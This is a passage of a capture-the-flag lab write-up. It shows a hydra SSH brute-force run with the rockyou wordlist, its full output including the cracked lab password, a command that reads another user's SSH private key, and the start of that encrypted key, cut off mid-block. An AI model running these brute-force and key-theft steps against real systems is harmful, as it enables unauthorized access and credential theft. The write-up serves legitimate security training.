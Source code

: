 > `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://xxx.xxx.xxx.xxx`

Which resulted in:

```text
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-17 23:30:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.183.192:22/
[STATUS] 170.00 tries/min, 170 tries in 00:01h, 14344231 to do in 1406:18h, 16 active
[STATUS] 112.67 tries/min, 338 tries in 00:03h, 14344063 to do in 2121:55h, 16 active
[STATUS] 109.29 tries/min, 765 tries in 00:07h, 14343636 to do in 2187:29h, 16 active
[22][ssh] host: 10.10.183.192   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-17 23:37:48
```

This is where we discovered the password: `armando` for user `jan`.

Also see: [hydra.log](hydra.log)

## Gaining Access


### Privilege Escalation from `jan` to `kay`.

In the process of running Linpeas, we found that user `jan` had privilege to read user `kay`'s SSH private key. So, the key was retrieved via:

> `cat /home/kay/.ssh/id_rsa`

When attempting to log into the server as Kay via:

> `ssh kay@xxx.xxx.xxx.xxx -i ./kay_id_rsa`

We are confronted with a password prompt. The SSH key is password protected.

### Processing Kay's Private SSH Key

We can take that [private key](kay_id_rsa):

```text
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
o9dyIEJB4wUZTueBPsmb487RdFVkTOVQrVHty1K2aLy2Lka2Cnfjz8Llv+FMadsN
XRvjw/HRiGcXPY8B7nsA1eiPYrPZHIH3QOFIYlSPMYv79RC65i6frkDSvxXzbdfX
AkAN+3T5FU49AEVKBJtZnLTEBw31mxjv0lLXAqIaX5QfeXMacIQOUWCHATlpVXmN
lG4BaG7cVXs1AmPieflx7uN4RuB9NZS4Zp0lplbCb4UEawX0Tt+VKd6kzh+Bk0aU
hWQJCdnb/U+dRasu3oxqyklKU2dPseU7rlvPAqa6y+ogK/woTbnTrkRngKqLQxMl
lIWZye4yrLETfc275hzVVYh6FkLgtOfaly0bMqGIrM+eWVoXOrZPBlv8iyNTDdDE
3jRjqbOGlPs01hAWKIRxUPaEr18lcZ+OlY00Vw2oNL2xKUgtQpV2jwH04yGdXbfJ
LYWlXxnJJpVMhKC6a75pe4ZVxfmMt0QcK4oKO1aRGMqLFNwaPxJYV6HauUoVExN7
bUpo+eLYVs5mo5tbpWDhi0NRfnGP1t6bn7Tvb77ACayGzHdLpIAqZmv/0hwRTnrb
RVhY1CUf7xGNmbmzYHzNEwMppE2i8mFSaVFCJEC3cDgn5TvQUXfh6CJJRVrhdxVy
```